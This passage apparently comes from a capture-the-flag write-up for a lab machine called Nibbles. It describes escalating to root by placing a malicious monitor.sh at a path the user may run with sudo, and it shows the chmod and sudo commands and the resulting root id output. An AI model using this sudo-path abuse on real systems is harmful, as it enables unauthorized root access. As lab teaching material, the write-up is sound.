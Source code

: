 So we can execute a file called monitor.sh as root with sudo. The file does not seem to exist in the users directory.

So lets simply create the filestructure and a malicious file that will spawn usa root shell. 

I had some issues creating the file on the host, so I ended up creating on locally on my attacking box and transfering it to the victim.

Then we just run the file with sudo.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod 755 monitor.sh
chmod 755 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
root@Nibbles:/home/nibbler/personal/stuff# id
id
uid=0(root) gid=0(root) groups=0(root)
```